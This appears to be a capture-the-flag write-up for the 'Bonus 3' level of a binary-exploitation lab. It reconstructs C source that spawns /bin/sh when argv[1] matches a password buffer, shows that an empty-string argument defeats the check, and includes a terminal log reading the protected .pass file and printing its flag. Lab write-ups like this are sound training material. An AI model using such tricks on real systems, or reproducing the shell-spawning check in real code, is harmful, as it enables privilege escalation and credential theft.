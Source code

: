 # Bonus 3

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
> There is a slight difference as mentioned in the comments of the source code. I'm not sure why this optimization doesn't happen with our C source code, but it doesn't change the program's behavior.
```
g++ -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>

// one line difference main+43 (extra use of eax)
int main(int argc, char **argv)
{
    char buf[132];
    FILE *file;

    file = fopen("/home/user/end/.pass", "r");

    memset(buf, 0, 132);

    if (file == 0 || argc != 2)
        return -1;

    fread(buf, 1, 66, file);
    buf[65] = 0;
    buf[atoi(argv[1])] = 0;

    fread(buf + 66, 1, 65, file);
    fclose(file);

    if (strcmp(buf, argv[1]) == 0)
        execl("/bin/sh", "sh", 0);
    else
        puts(buf + 66);

    return 0;
}
```

Let's focus on the `main` function. It reads input from the command line and then `atoi` converts it to an integer, which is used to set a null byte in the `buf` buffer. Since we're going to compare the `buf` buffer with the `argv[1]` argument, and if they are equal, we will spawn a shell, we need to find a way for them to be equal.

However there is a catch, the `buf` buffer is filled with 66 bytes from the `/home/user/end/.pass` file, and then 65 bytes from the same file are appended to the `buf` buffer. There is no way for us to know the content of the file.  
But there's a way to cheat on the `strcmp` function, indeed, if we provide an empty string as the `argv[1]` argument, the `atoi` function will return `0`, which will set the first byte of the `buf` buffer to `0`. And, since the string was empty, `argv[1]` will also be `0`. Therefore, the `strcmp` function will return `0` and we will spawn a shell.

Let's try it:
```bash
bonus3@RainFall:~$ ./bonus3 ""
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```

We are now end! The project is over, congratulations!
